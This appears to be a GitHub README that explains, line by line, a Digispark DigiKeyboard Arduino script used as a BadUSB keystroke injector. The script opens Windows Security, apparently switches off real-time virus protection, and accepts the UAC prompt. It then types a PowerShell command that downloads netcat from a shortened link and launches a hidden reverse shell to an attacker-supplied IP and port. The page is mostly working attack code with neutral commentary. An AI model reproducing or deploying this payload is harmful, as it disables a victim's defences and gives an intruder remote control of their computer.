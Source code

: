 <h2> <div align="center"><i>This script uses the DigiKeyboard library to automate keystrokes and input text Here is a breakdown of each line of code:</i></div></h2>

<code color="#00979C">#include "DigiKeyboard.h"</code>

<i>```This line includes the header file "DigiKeyboard.h," which provides the necessary definitions and functions for interacting with the DigiKeyboard.```</i>

<code color="#00979C">void setup(){</code>
  
<em>```This marks the beginning of the setup() function, which is a special function in Arduino that is called once when the board is powered on or reset.```<em>

<code color="#00979C">DigiKeyboard.delay(1000);</code>

<em>```This line introduces a delay of 1000 milliseconds (1 second) in the program execution.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);</code>

<em>```This line simulates pressing the 'S' key along with the left GUI (Windows key) modifier using the sendKeyStroke() function.```<em>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
  
<em>```Another delay of 1000 milliseconds is introduced.```<em>

<code color="#00979C">DigiKeyboard.print("virus & threat protection");</code>
  
<em>```The print() function is used to simulate typing the string "virus & threat protection" as keystrokes.```<em>

<code color="#00979C">DigiKeyboard.delay(500);</code>
  
<em>```A delay of 500 milliseconds (0.5 seconds) is added.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
  
<em>```The sendKeyStroke() function simulates pressing the Enter key.```<em>

<code color="#00979C">DigiKeyboard.delay(5000);</code>
  
<em>```A delay of 5000 milliseconds (5 seconds) is introduced.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(43);</code>
  
<em>```The sendKeyStroke() function is used to simulate tapping a key with the code 43. The specific key associated with code 43 may vary depending on the keyboard layout.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
  
<em>```Another Enter key press is simulated.```<em>

<code color="#00979C">DigiKeyboard.delay(700);</code>
  
<em>```A delay of 700 milliseconds (0.7 seconds) is added.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
  
<em>```Yet another Enter key press is simulated.```<em>

<code color="#00979C">DigiKeyboard.delay(700);</code>
  
<em>``` Another delay of 700 milliseconds is introduced.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_SPACE);</code>
  
<em>```The sendKeyStroke() function simulates pressing the Space key.```<em>

<code color="#00979C">DigiKeyboard.delay(2000);</code>
  
<em>```A delay of 2000 milliseconds (2 seconds) is added.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);</code>
  
<em>```The sendKeyStroke() function is used to simulate pressing the 'Y' key along with the left Alt modifier.```<em>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
  
<em>```A delay of 1000 milliseconds (1 second) is introduced.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);</code>
  
<em>```The sendKeyStroke() function is used to simulate pressing the F4 key along with the left Alt modifier. This combination is often used to close the active window in Windows.```<em>

<code color="#00979C">DigiKeyboard.delay(500);</code>
  
<em>```A delay of 500 milliseconds (0.5 seconds) is added.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);</code>
  
<em>```The sendKeyStroke() function is used to simulate pressing the 'R' key along with the left GUI (Windows key) modifier.```<em>

<code color="#00979C">DigiKeyboard.delay(700);</code>
  
<em>```A delay of 700 milliseconds (0.7 seconds) is introduced.```<em>

<code color="#00979C">DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");</code>
  
<em>```The print() function is used to simulate typing the provided string, which contains a PowerShell command.```<em>
  
<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
  
<em>```The sendKeyStroke() function is used to simulate pressing the Enter key.```<em>

<code color="#00979C">void loop(){}</code>
<em>```This is the loop() function, which runs repeatedly after the setup() function. However, in this code, the loop() function is empty, so it doesn't contain any specific instructions.```<em>
```<em>



